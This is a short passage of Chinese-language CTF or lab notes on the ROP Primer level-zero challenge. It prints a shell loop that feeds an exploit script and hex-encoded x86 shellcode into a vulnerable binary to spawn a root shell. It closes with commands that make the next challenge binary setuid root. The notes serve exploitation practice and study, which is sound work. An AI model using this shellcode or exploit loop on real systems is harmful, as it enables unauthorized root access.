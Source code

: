 執行payload
```
# while true; do (python exp_challenge-one.py; python -c 'import sys;sys.stdout.write("\x31\xdb\x6a\x17\x58\xcd\x80\xf7\xe3\xb0\x0b\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")';cat) | ./challenge-one; done
```
壓住enter不放讓他重複執行直到buffer overflow，開始輸出空白表示成功，輸入ID查看
![image](images/S1UpxW4w6.png)
成功

* 練習遇到的問題，這個payload使用的是python2語法，如果使用的linux環境如果沒有python2，payload會報錯無法執行，要先解決環境問題
* https://blog.xpnsec.com/rop-primer-level-0/
這是這題出題的參考來源，有原始payload的撰寫邏輯

---
###### bin2

sudo chown root:root: level-two
sudo chmod 4755 level-two
ll